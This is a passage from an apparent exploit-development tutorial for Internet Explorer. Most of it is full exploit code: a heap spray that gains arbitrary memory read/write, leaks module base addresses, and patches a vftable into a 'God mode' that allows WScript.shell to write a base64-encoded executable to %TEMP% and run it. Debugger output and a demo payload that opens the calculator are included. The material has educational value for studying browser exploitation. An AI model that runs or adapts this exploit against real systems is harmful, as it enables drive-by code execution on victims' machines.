Evaluate expression: 901476 = 000dc164So the vftable is at mshtml + 0xc555e0 and we need to overwrite the dword at mshtml + 0xc555e0 + 0x14 with the value jscript9 + 0xdc164. Let’s see the javascript code to do this:
// We want to overwrite mshtml+0xc555e0+0x14 with jscript9+0xdc164 where:
// * mshtml+0xc555e0 is the address of the vftable we want to modify;
// * jscript9+0xdc164 points to the code "leave / ret 4".
// As a result, jscript9!ScriptEngine::CanObjectRun returns true.
var old = read(mshtml+0xc555e0+0x14);
write(mshtml+0xc555e0+0x14, jscript9+0xdc164); // God mode on!
shell = new ActiveXObject("WScript.shell");
shell.Exec('calc.exe');
write(mshtml+0xc555e0+0x14, old); // God mode off!
Note that the code restores the vftable as soon as possible (God mode off!) because the altered vftable would lead to a crash in the long run.
Here’s the full code:
<html>
<head>
<script language="javascript">
(function() {
alert("Starting!");
//-----------------------------------------------------
// From one-byte-write to full process space read/write
//-----------------------------------------------------
a = new Array();
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte ArrayBuffer (buf)
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
for (i = 0; i < 0x200; ++i) {
a[i] = new Array(0x3c00);
if (i == 0x80)
buf = new ArrayBuffer(0x58); // must be exactly 0x58!
for (j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
// 0x0: ArrayDataHead
// 0x20: array[0] address
// 0x24: array[1] address
// ...
// 0xf000: Int32Array
// 0xf030: Int32Array
// ...
// 0xffc0: Int32Array
// 0xfff0: align data
for (; i < 0x200 + 0x400; ++i) {
a[i] = new Array(0x3bf8)
for (j = 0; j < 0x55; ++j)
a[i][j] = new Int32Array(buf)
}
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
alert("Set byte at 0c0af01b to 0x20");
// Now let's find the Int32Array whose length we modified.
int32array = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
for (j = 0; j < 0x55; ++j) {
if (a[i][j].length != 0x58/4) {
int32array = a[i][j];
break;
}
}
if (int32array != 0)
break;
}
if (int32array == 0) {
alert("Can't find int32array!");
window.location.reload();
return;
}
// This is just an example.
// The buffer of int32array starts at 03c1f178 and is 0x58 bytes.
// The next LargeHeapBlock, preceded by 8 bytes of header, starts at 03c1f1d8.
// The value in parentheses, at 03c1f178+0x60+0x24, points to the following
// LargeHeapBlock.
//
// 03c1f178: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f198: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f1b8: 00000000 00000000 00000000 00000000 00000000 00000000 014829e8 8c000000
// 03c1f1d8: 70796e18 00000003 08100000 00000010 00000001 00000000 00000004 0810f020
// 03c1f1f8: 08110000(03c1f238)00000000 00000001 00000001 00000000 03c15b40 08100000
// 03c1f218: 00000000 00000000 00000000 00000004 00000001 00000000 01482994 8c000000
// 03c1f238: ...
// We check that the structure above is correct (we check the first LargeHeapBlocks).
// 70796e18 = jscript9!LargeHeapBlock::`vftable' = jscript9 + 0x6e18
var vftptr1 = int32array[0x60/4],
vftptr2 = int32array[0x60*2/4],
vftptr3 = int32array[0x60*3/4],
nextPtr1 = int32array[(0x60+0x24)/4],
nextPtr2 = int32array[(0x60*2+0x24)/4],
nextPtr3 = int32array[(0x60*3+0x24)/4];
if (vftptr1 & 0xffff != 0x6e18 || vftptr1 != vftptr2 || vftptr2 != vftptr3 ||
nextPtr2 - nextPtr1 != 0x60 || nextPtr3 - nextPtr2 != 0x60) {
alert("Error!");
window.location.reload();
return;
}
buf_addr = nextPtr1 - 0x60*2;
// Now we modify int32array again to gain full address space read/write access.
if (int32array[(0x0c0af000+0x1c - buf_addr)/4] != buf_addr) {
alert("Error!");
window.location.reload();
return;
}
int32array[(0x0c0af000+0x18 - buf_addr)/4] = 0x20000000; // new length
int32array[(0x0c0af000+0x1c - buf_addr)/4] = 0; // new buffer address
function read(address) {
var k = address & 3;
if (k == 0) {
// ####
return int32array[address/4];
}
else {
alert("to debug");
// .### #... or ..## ##.. or ...# ###.
return (int32array[(address-k)/4] >> k*8) |
(int32array[(address-k+4)/4] << (32 - k*8));
}
}
function write(address, value) {
var k = address & 3;
if (k == 0) {
// ####
int32array[address/4] = value;
}
else {
// .### #... or ..## ##.. or ...# ###.
alert("to debug");
var low = int32array[(address-k)/4];
var high = int32array[(address-k+4)/4];
var mask = (1 << k*8) - 1; // 0xff or 0xffff or 0xffffff
low = (low & mask) | (value << k*8);
high = (high & (0xffffffff - mask)) | (value >> (32 - k*8));
int32array[(address-k)/4] = low;
int32array[(address-k+4)/4] = high;
}
}
//---------
// God mode
//---------
// At 0c0af000 we can read the vfptr of an Int32Array:
// jscript9!Js::TypedArray<int>::`vftable' @ jscript9+3b60
jscript9 = read(0x0c0af000) - 0x3b60;
// Now we need to determine the base address of MSHTML. We can create an HTML
// object and write its reference to the address 0x0c0af000-4 which corresponds
// to the last element of one of our arrays.
// Let's find the array at 0x0c0af000-4.
for (i = 0x200; i < 0x200 + 0x400; ++i)
a[i][0x3bf7] = 0;
// We write 3 in the last position of one of our arrays. IE encodes the number x
// as 2*x+1 so that it can tell addresses (dword aligned) and numbers apart.
// Either we use an odd number or a valid address otherwise IE will crash in the
// following for loop.
write(0x0c0af000-4, 3);
leakArray = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
if (a[i][0x3bf7] != 0) {
leakArray = a[i];
break;
}
}
if (leakArray == 0) {
alert("Can't find leakArray!");
window.location.reload();
return;
}
function get_addr(obj) {
leakArray[0x3bf7] = obj;
return read(0x0c0af000-4, obj);
}
// Back to determining the base address of MSHTML...
// Here's the beginning of the element div:
// +----- jscript9!Projection::ArrayObjectInstance::`vftable'
// v
// 70792248 0c012b40 00000000 00000003
// 73b38b9a 00000000 00574230 00000000
// ^
// +---- MSHTML!CBaseTypeOperations::CBaseFinalizer = mshtml + 0x58b9a
var addr = get_addr(document.createElement("div"));
mshtml = read(addr + 0x10) - 0x58b9a;
// We want to overwrite mshtml+0xc555e0+0x14 with jscript9+0xdc164 where:
// * mshtml+0xc555e0 is the address of the vftable we want to modify;
// * jscript9+0xdc164 points to the code "leave / ret 4".
// As a result, jscript9!ScriptEngine::CanObjectRun returns true.
var old = read(mshtml+0xc555e0+0x14);
write(mshtml+0xc555e0+0x14, jscript9+0xdc164); // God mode on!
shell = new ActiveXObject("WScript.shell");
shell.Exec('calc.exe');
write(mshtml+0xc555e0+0x14, old); // God mode off!
alert("All done!");
})();
</script>
</head>
<body>
</body>
</html>
Open it in IE and, when the alert box tells you, go in WinDbg and set the byte at 0c0af01b to 0x20 or the dword at 0c0af018 to 0x20000000. Then close the alert box and the calculator should pop up. If there is an error (it may happen, as we already saw), don’t worry and repeat the process.
Running arbitrary code
We saw how to run an executable present on the victim’s computer. Now let’s see how we can execute arbitrary code. The trick is to create an .exe file and then execute it. This is the code to do just that:
<html>
<head>
<script language="javascript">
// content of exe file encoded in base64.
runcalc = ... put base64 encoded exe here ...
function createExe(fname, data) {
var tStream = new ActiveXObject("ADODB.Stream");
var bStream = new ActiveXObject("ADODB.Stream");
tStream.Type = 2; // text
bStream.Type = 1; // binary
tStream.Open();
bStream.Open();
tStream.WriteText(data);
tStream.Position = 2; // skips the first 2 bytes in the tStream (what are they?)
tStream.CopyTo(bStream);
bStream.SaveToFile(fname, 2); // 2 = overwrites file if it already exists
tStream.Close();
bStream.Close();
}
function decode(b64Data) {
var data = window.atob(b64Data);
// Now data is like
// 11 00 12 00 45 00 50 00 ...
// rather than like
// 11 12 45 50 ...
// Let's fix this!
var arr = new Array();
for (var i = 0; i < data.length / 2; ++i) {
var low = data.charCodeAt(i*2);
var high = data.charCodeAt(i*2 + 1);
arr.push(String.fromCharCode(low + high * 0x100));
}
return arr.join('');
}
shell = new ActiveXObject("WScript.shell");
fname = shell.ExpandEnvironmentStrings("%TEMP%\\runcalc.exe");
createExe(fname, decode(runcalc));
shell.Exec(fname);
</script>
</head>
<body>
</body>
</html>
I won’t explain the details of how this code works because I don’t think that’s very interesting.
First of all, let’s create a little application which open the calculator. In real life, we’d code something more interesting and useful, of course, but that’s enough for a demonstration.
Create a C/C++ Win32 Project in Visual Studio 2013 with the following code:
#include "windows.h"
int CALLBACK WinMain(
_In_ HINSTANCE hInstance,
_In_ HINSTANCE hPrevInstance,
_In_ LPSTR lpCmdLine,
_In_ int nCmdShow) {
WinExec("calc.exe", SW_SHOW);
return 0;
}
Change the project properties as follows:
- [Release]
- Configuration Properties
- C/C++
- Code Generation
- Runtime Library: Multi-threaded (/MT)
- Code Generation
- C/C++
- Configuration Properties
This will make sure that the runtime library is statically linked (we want the exe file to be standalone). Build the Release version and you should have a 68-KB file. Mine is named runcalc.exe.
Now encode runcalc.exe in base64 with a little Python script:
import base64
with open(r'c:\runcalc.exe', 'rb') as f:
print(base64.b64encode(f.read()))
Now copy and paste the encoded data into the javascript code above so that you have
runcalc = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAA <snipped> AAAAAAAAAAAAAAAAAA';
I snipped the string because too long, but you can download it here: runcalc.
Open the html file in IE and you’ll see that the calculator doesn’t pop up. To see what’s wrong, open the Developer Tools (F12), go to the Console tab and then reload the page. Here’s what we get:

The problem is that Microsoft decided to disable ADODB.Stream in Internet Explorer because ADODB.Stream is intrinsically unsafe. For now, let’s reenable it by using a little utility called acm (download).
{kind=link}
Install acm, run it and enable ADODB.Stream like shown in the following picture:

Now restart IE and open the html file again. This time the calculator will pop up!
{kind=link}
The problems are not over, unfortunately.
Download an utility called SimpleServer:WWW from here: link.
We’re going to use it to run the html file as if it were served by a web server. SimpleServer is easy to configure. Just create a folder called WebDir on the Desktop, copy the html file into that folder, then run SimpleServer and select the html file like indicated in the following picture:

Then click on Start. Now open IE and open the page at the address 127.0.0.1. The calculator won’t pop up. Once again, use the Developer Tools to see what’s wrong:
{kind=link}

It seems that things work differently when we receive a page from a server.
{kind=link}
Change the settings as shown in the following picture:

Reload the page and you should see another error:
{kind=link}

OK, now is time to solve all these problems. Reset all the settings in IE and disable again ADODB.Stream with the utility acm. Here’s the full code we’re going to work on:
<html>
<head>
<script language="javascript">
(function() {
alert("Starting!");
//-----------------------------------------------------
// From one-byte-write to full process space read/write
//-----------------------------------------------------
a = new Array();
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte ArrayBuffer (buf)
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
for (i = 0; i < 0x200; ++i) {
a[i] = new Array(0x3c00);
if (i == 0x80)
buf = new ArrayBuffer(0x58); // must be exactly 0x58!
for (j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
// 0x0: ArrayDataHead
// 0x20: array[0] address
// 0x24: array[1] address
// ...
// 0xf000: Int32Array
// 0xf030: Int32Array
// ...
// 0xffc0: Int32Array
// 0xfff0: align data
for (; i < 0x200 + 0x400; ++i) {
a[i] = new Array(0x3bf8)
for (j = 0; j < 0x55; ++j)
a[i][j] = new Int32Array(buf)
}
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
alert("Set byte at 0c0af01b to 0x20");
// Now let's find the Int32Array whose length we modified.
int32array = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
for (j = 0; j < 0x55; ++j) {
if (a[i][j].length != 0x58/4) {
int32array = a[i][j];
break;
}
}
if (int32array != 0)
break;
}
if (int32array == 0) {
alert("Can't find int32array!");
window.location.reload();
return;
}
// This is just an example.
// The buffer of int32array starts at 03c1f178 and is 0x58 bytes.
// The next LargeHeapBlock, preceded by 8 bytes of header, starts at 03c1f1d8.
// The value in parentheses, at 03c1f178+0x60+0x24, points to the following
// LargeHeapBlock.
//
// 03c1f178: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f198: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f1b8: 00000000 00000000 00000000 00000000 00000000 00000000 014829e8 8c000000
// 03c1f1d8: 70796e18 00000003 08100000 00000010 00000001 00000000 00000004 0810f020
// 03c1f1f8: 08110000(03c1f238)00000000 00000001 00000001 00000000 03c15b40 08100000
// 03c1f218: 00000000 00000000 00000000 00000004 00000001 00000000 01482994 8c000000
// 03c1f238: ...
// We check that the structure above is correct (we check the first LargeHeapBlocks).
// 70796e18 = jscript9!LargeHeapBlock::`vftable' = jscript9 + 0x6e18
var vftptr1 = int32array[0x60/4],
vftptr2 = int32array[0x60*2/4],
vftptr3 = int32array[0x60*3/4],
nextPtr1 = int32array[(0x60+0x24)/4],
nextPtr2 = int32array[(0x60*2+0x24)/4],
nextPtr3 = int32array[(0x60*3+0x24)/4];
if (vftptr1 & 0xffff != 0x6e18 || vftptr1 != vftptr2 || vftptr2 != vftptr3 ||
nextPtr2 - nextPtr1 != 0x60 || nextPtr3 - nextPtr2 != 0x60) {
alert("Error!");
window.location.reload();
return;
}
buf_addr = nextPtr1 - 0x60*2;
// Now we modify int32array again to gain full address space read/write access.
if (int32array[(0x0c0af000+0x1c - buf_addr)/4] != buf_addr) {
alert("Error!");
window.location.reload();
return;
}
int32array[(0x0c0af000+0x18 - buf_addr)/4] = 0x20000000; // new length
int32array[(0x0c0af000+0x1c - buf_addr)/4] = 0; // new buffer address
function read(address) {
var k = address & 3;
if (k == 0) {
// ####
return int32array[address/4];
}
else {
alert("to debug");
// .### #... or ..## ##.. or ...# ###.
return (int32array[(address-k)/4] >> k*8) |
(int32array[(address-k+4)/4] << (32 - k*8));
}
}
function write(address, value) {
var k = address & 3;
if (k == 0) {
// ####
int32array[address/4] = value;
}
else {
// .### #... or ..## ##.. or ...# ###.
alert("to debug");
var low = int32array[(address-k)/4];
var high = int32array[(address-k+4)/4];
var mask = (1 << k*8) - 1; // 0xff or 0xffff or 0xffffff
low = (low & mask) | (value << k*8);
high = (high & (0xffffffff - mask)) | (value >> (32 - k*8));
int32array[(address-k)/4] = low;
int32array[(address-k+4)/4] = high;
}
}
//---------
// God mode
//---------
// At 0c0af000 we can read the vfptr of an Int32Array:
// jscript9!Js::TypedArray<int>::`vftable' @ jscript9+3b60
jscript9 = read(0x0c0af000) - 0x3b60;
// Now we need to determine the base address of MSHTML. We can create an HTML
// object and write its reference to the address 0x0c0af000-4 which corresponds
// to the last element of one of our arrays.
// Let's find the array at 0x0c0af000-4.
for (i = 0x200; i < 0x200 + 0x400; ++i)
a[i][0x3bf7] = 0;
// We write 3 in the last position of one of our arrays. IE encodes the number x
// as 2*x+1 so that it can tell addresses (dword aligned) and numbers apart.
// Either we use an odd number or a valid address otherwise IE will crash in the
// following for loop.
write(0x0c0af000-4, 3);
leakArray = 0;
for (i = 0x200; i < 0x200 + 0x400; ++i) {
if (a[i][0x3bf7] != 0) {
leakArray = a[i];
break;
}
}
if (leakArray == 0) {
alert("Can't find leakArray!");
window.location.reload();
return;
}
function get_addr(obj) {
leakArray[0x3bf7] = obj;
return read(0x0c0af000-4, obj);
}
// Back to determining the base address of MSHTML...
// Here's the beginning of the element div:
// +----- jscript9!Projection::ArrayObjectInstance::`vftable'
// v
// 70792248 0c012b40 00000000 00000003
// 73b38b9a 00000000 00574230 00000000
// ^
// +---- MSHTML!CBaseTypeOperations::CBaseFinalizer = mshtml + 0x58b9a
var addr = get_addr(document.createElement("div"));
mshtml = read(addr + 0x10) - 0x58b9a;
// We want to overwrite mshtml+0xc555e0+0x14 with jscript9+0xdc164 where:
// * mshtml+0xc555e0 is the address of the vftable we want to modify;
// * jscript9+0xdc164 points to the code "leave / ret 4".
// As a result, jscript9!ScriptEngine::CanObjectRun returns true.
var old = read(mshtml+0xc555e0+0x14);
write(mshtml+0xc555e0+0x14, jscript9+0xdc164); // God mode on!
// content of exe file encoded in base64.
runcalc = 'TVqQAAMAAAAEAAAA//8AALgAAAAA <snipped> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA';
function createExe(fname, data) {
var tStream = new ActiveXObject("ADODB.Stream");
var bStream = new ActiveXObject("ADODB.Stream");
tStream.Type = 2; // text
bStream.Type = 1; // binary
tStream.Open();
bStream.Open();
tStream.WriteText(data);
tStream.Position = 2; // skips the first 2 bytes in the tStream (what are they?)
tStream.CopyTo(bStream);
bStream.SaveToFile(fname, 2); // 2 = overwrites file if it already exists
tStream.Close();
bStream.Close();
}
function decode(b64Data) {
var data = window.atob(b64Data);
// Now data is like
// 11 00 12 00 45 00 50 00 ...
// rather than like
// 11 12 45 50 ...
// Let's fix this!
var arr = new Array();
for (var i = 0; i < data.length / 2; ++i) {
var low = data.charCodeAt(i*2);
var high = data.charCodeAt(i*2 + 1);
arr.push(String.fromCharCode(low + high * 0x100));
}
return arr.join('');
}
shell = new ActiveXObject("WScript.shell");
fname = shell.ExpandEnvironmentStrings("%TEMP%\\runcalc.exe");
createExe(fname, decode(runcalc));
shell.Exec(fname);
write(mshtml+0xc555e0+0x14, old); // God mode off!
alert("All done!");
})();
</script>
</head>
<body>
</body>
</html>
I snipped the value of runcalc because it was too long. You can download the full code from here: code1.
Use SimpleServer to serve this code. Go to 127.0.0.1 in IE and when the dialog box pops up do what it says in WinDbg. Unfortunately, IE crashes here:
6ef82798 90 nop IEFRAME!CDocObjectHost::_ScriptErr_Dlg: 6ef82799 8bff mov edi,edi 6ef8279b 55 push ebp 6ef8279c 8bec mov ebp,esp 6ef8279e b870100000 mov eax,1070h 6ef827a3 e86ee8f0ff call IEFRAME!_alloca_probe (6ee91016) 6ef827a8 a1b874376f mov eax,dword ptr [IEFRAME!__security_cookie (6f3774b8)] 6ef827ad 33c5 xor eax,ebp 6ef827af 8945fc mov dword ptr [ebp-4],eax 6ef827b2 53 push ebx 6ef827b3 33db xor ebx,ebx 6ef827b5 57 push edi 6ef827b6 8bf9 mov edi,ecx 6ef827b8 399e78050000 cmp dword ptr [esi+578h],ebx ds:002b:00000578=???????? <-------------------- 6ef827be 0f84b8890c00 je IEFRAME!CDocObjectHost::_ScriptErr_Dlg+0x3d (6f04b17c) 6ef827c4 e99d890c00 jmp IEFRAME!CDocObjectHost::_ScriptErr_Dlg+0x27 (6f04b166) 6ef827c9 90 nop 6ef827ca 90 nop 6ef827cb 90 nop 6ef827cc 90 nop 6ef827cd 90 nop IEFRAME!CDocObjectHost::_ScriptErr_CacheInfo: 6ef827ce 8bff mov edi,edi 6ef827d0 55 push ebp 6ef827d1 8bec mov ebp,esp 6ef827d3 81eca8000000 sub esp,0A8h 6ef827d9 a1b874376f mov eax,dword ptr [IEFRAME!__security_cookie (6f3774b8)] 6ef827de 33c5 xor eax,ebp
This might be a problem with our God Mode. Let’s find out by modifying our javascript code as follows:
var old = read(mshtml+0xc555e0+0x14);
write(mshtml+0xc555e0+0x14, jscript9+0xdc164); // God mode on!
alert("bp on " + (mshtml+0xc555e0+0x14).toString(16));
We just add an alert right after the activation of the God Mode. Restart IE and WinDbg and repeat the whole process.
I must admit that I get the Error message box a lot. Let’s change some values and see if things get better. Here are the changes:
<html>
<head>
<script language="javascript">
(function() {
alert("Starting!");
//-----------------------------------------------------
// From one-byte-write to full process space read/write
//-----------------------------------------------------
a = new Array();
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte ArrayBuffer (buf)
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
for (i = 0; i < 0x300; ++i) { // <------------ from 0x200 to 0x300
a[i] = new Array(0x3c00);
if (i == 0x100) // <------------ from 0x80 to 0x100
buf = new ArrayBuffer(0x58); // must be exactly 0x58!
for (j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
// 0x0: ArrayDataHead
// 0x20: array[0] address
// 0x24: array[1] address
// ...
// 0xf000: Int32Array
// 0xf030: Int32Array
// ...
// 0xffc0: Int32Array
// 0xfff0: align data
for (; i < 0x300 + 0x400; ++i) { // <------------ from 0x200 to 0x300
a[i] = new Array(0x3bf8)
for (j = 0; j < 0x55; ++j)
a[i][j] = new Int32Array(buf)
}
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
alert("Set byte at 0c0af01b to 0x20");
// Now let's find the Int32Array whose length we modified.
int32array = 0;
for (i = 0x300; i < 0x300 + 0x400; ++i) { // <------------ from 0x200 to 0x300
for (j = 0; j < 0x55; ++j) {
if (a[i][j].length != 0x58/4) {
int32array = a[i][j];
break;
}
}
if (int32array != 0)
break;
}
Ah, much better! Now it’s way more stable, at least on my system.
Finally, the dialog box with the address of the modified entry in the vftable pops up. In my case, it says bp on 6d0f55f4. Let’s put a breakpoint on access:
ba r4 mshtml+0xc555e0+0x14
After we hit F5 and we close the dialog, the execution stops here:
0555c15a 5f pop edi 0555c15b 5e pop esi 0555c15c 33cd xor ecx,ebp 0555c15e 5b pop ebx 0555c15f e8da51f2ff call jscript9!__security_check_cookie (0548133e) 0555c164 c9 leave <-------------------- we are here 0555c165 c20400 ret 4
Here’s the stack trace:
0:007> k 5 ChildEBP RetAddr 03e0bbb4 0555bfae jscript9!ScriptEngine::CanObjectRun+0xaf 03e0bc00 0555bde1 jscript9!ScriptSite::CreateObjectFromProgID+0xdf 03e0bc44 0555bd69 jscript9!ScriptSite::CreateActiveXObject+0x56 03e0bc78 054c25d5 jscript9!JavascriptActiveXObject::NewInstance+0x90 03e0bcd0 054ccd4a jscript9!Js::InterpreterStackFrame::NewScObject_Helper+0xd6
OK, we’re inside CreateActiveXObject so everything is proceeding as it should. Let’s hit F5 again. Now the execution stops on the same instruction but the stack trace is different:
0:007> k 10 ChildEBP RetAddr 03e0a4dc 6eeb37aa jscript9!ScriptEngine::CanObjectRun+0xaf 03e0b778 6eedac3e IEFRAME!CDocObjectHost::OnExec+0xf9d 03e0b7a8 6c9d7e9a IEFRAME!CDocObjectHost::Exec+0x23d 03e0b810 6c9d7cc7 MSHTML!CWindow::ShowErrorDialog+0x95 03e0b954 6c9d7b68 MSHTML!COmWindowProxy::Fire_onerror+0xc6 03e0bbc0 6c9d7979 MSHTML!CMarkup::ReportScriptError+0x179 03e0bc40 0555dbe4 MSHTML!CActiveScriptHolder::OnScriptError+0x14e 03e0bc50 0555e516 jscript9!ScriptEngine::OnScriptError+0x17 03e0bc6c 0555e4b6 jscript9!ScriptSite::ReportError+0x56 03e0bc78 0555e460 jscript9!ScriptSite::HandleJavascriptException+0x1b 03e0c3d8 05492027 jscript9!ScriptSite::CallRootFunction+0x6d 03e0c400 0553df75 jscript9!ScriptSite::Execute+0x61 03e0c48c 0553db57 jscript9!ScriptEngine::ExecutePendingScripts+0x1e9 03e0c514 0553e0b7 jscript9!ScriptEngine::ParseScriptTextCore+0x2ad 03e0c568 6c74b60c jscript9!ScriptEngine::ParseScriptText+0x5b 03e0c5a0 6c74945d MSHTML!CActiveScriptHolder::ParseScriptText+0x42
After a little bit of stepping IE crashes as before. It seems we have a problem with our God Mode. Probably, our problem is that we modified the vftable itself which is used by all the objects of the same type. We should create a modified copy of the original vftable and make the object we’re interested in point to it.